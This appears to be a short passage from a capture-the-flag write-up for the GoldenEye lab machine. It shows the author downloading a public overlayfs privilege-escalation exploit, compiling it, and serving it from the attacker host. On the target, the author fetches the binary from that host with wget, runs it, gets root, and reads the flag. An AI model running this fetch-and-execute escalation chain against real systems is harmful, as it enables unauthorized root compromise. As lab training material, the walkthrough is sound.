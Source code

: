 ```console
root@kali:~$ wget --quiet https://www.exploit-db.com/download/37292 -O ofs.c
root@kali:~$ sed -i 's/gcc -/cc -/' ofs.c
root@kali:~$ gcc ofs.c -o /var/www/html/ofs
root@kali:~$ systemctl start apache2
```

I transferred the exploit to the target machine, granted it execute privileges, ran it, and got root.

```console
www-data@ubuntu:/dev/shm$ wget -q 192.168.179.1/ofs && chmod +x ofs && ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```

![](/assets/images/goldeneye/screenshot-19.png)
